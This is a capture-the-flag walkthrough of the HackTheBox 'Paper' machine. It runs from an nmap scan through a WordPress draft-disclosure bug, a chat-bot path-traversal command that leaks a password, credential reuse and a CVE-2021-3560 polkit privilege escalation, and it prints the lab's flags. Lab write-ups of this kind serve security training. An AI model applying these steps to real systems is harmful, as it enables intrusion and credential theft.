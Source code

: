 # Paper

## Enumeration

nmap:
```bash
┌──(kali㉿kali)-[~/Sec/HackTheBox/Machines/Paper]
└─$ nmap -sC -sV 10.10.11.143 -oA scans/nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-09 14:02 EDT
Nmap scan report for 10.10.11.143
Host is up (0.049s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.00 seconds
```

### Port 80

In head:
```html
<meta name="generator" content="HTML Tidy for HTML5 for Linux version 5.7.28">
<title>HTTP Server Test Page powered by CentOS</title>
```

`/cgi-bin` folder is present.

PHP Version: `PHP/7.2.24`.

Header: `X-Backend-Server: office.paper`.

Server: `Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9`.

When adding `office.paper` to `/etc/hosts`:

![](Pasted%20image%2020220609143951.png)

Users found:
- prisonmike
- jan
- nick

Nick said: `Michael, you should remove the secret content from your drafts ASAP`.

WordPress version: `5.2.3`

## Enumeration

On Google: https://www.exploit-db.com/exploits/47690

On this link, drafts are disclosed: http://office.paper/?static=1

Secret found:

```bash
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Adding `chat.office.paper` to `/etc/hosts` show this page:

![](Pasted%20image%2020220609150712.png)

Once logged in the chat, a bot is present, which can be DM'd:

```
recyclops file ../hubot/.env

-   Bot 3:18 PM
    
    <!=====Contents of file ../hubot/.env=====>
    
-   <!=====Contents of file ../hubot/.env=====>
    
-   export ROCKETCHAT_URL='[http://127.0.0.1:48320](http://127.0.0.1:48320)'  
    export ROCKETCHAT_USER=recyclops  
    export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
    export ROCKETCHAT_USESSL=false  
    export RESPOND_TO_DM=true  
    export RESPOND_TO_EDITED=true  
    export PORT=8000  
    export BIND_ADDRESS=127.0.0.1
```

After a test: `dwight:Queenofblad3s!23` is a set of credentials.

`user.txt`: `8ef445c15fc077583aec9b7ba2aab2d3`

## Post-Exploitation

Using `linpeas.sh`,  a CVE seems to be usable:
```bash
╔══════════╣ CVEs Check                                                                                                                                                                                                                  
Vulnerable to CVE-2021-3560
```

Using this PoC: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh

Created a user and spawned a root shell.

`root.txt`: `d5a268920b8834ba615d44431e9b91fc`